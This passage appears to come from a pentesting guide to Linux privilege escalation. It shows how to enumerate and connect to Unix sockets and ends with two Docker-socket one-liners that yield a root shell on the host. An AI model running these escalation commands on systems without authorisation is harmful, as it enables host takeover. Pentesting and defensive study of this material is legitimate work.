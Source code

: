 ### Writable sockets

If you **identify any writable socket** (_now we are talking about Unix Sockets and not about the config `.socket` files_), then **you can communicate** with that socket and maybe exploit a vulnerability.

### Enumerate Unix Sockets

```bash
netstat -a -p --unix
```

### Raw connection

```bash
#apt-get install netcat-openbsd
nc -U /tmp/socket  #Connect to UNIX-domain stream socket
nc -uU /tmp/socket #Connect to UNIX-domain datagram socket

#apt-get install socat
socat - UNIX-CLIENT:/dev/socket #connect to UNIX-domain socket, irrespective of its type
```

**Exploitation example:**


{{#ref}}
socket-command-injection.md
{{#endref}}

### HTTP sockets

Note that there may be some **sockets listening for HTTP** requests (_I'm not talking about .socket files but the files acting as unix sockets_). You can check this with:

```bash
curl --max-time 2 --unix-socket /pat/to/socket/files http:/index
```

If the socket **responds with an HTTP** request, then you can **communicate** with it and maybe **exploit some vulnerability**.

### Writable Docker Socket

The Docker socket, often found at `/var/run/docker.sock`, is a critical file that should be secured. By default, it's writable by the `root` user and members of the `docker` group. Possessing write access to this socket can lead to privilege escalation. Here's a breakdown of how this can be done and alternative methods if the Docker CLI isn't available.

#### **Privilege Escalation with Docker CLI**

If you have write access to the Docker socket, you can escalate privileges using the following commands:

```bash
docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```
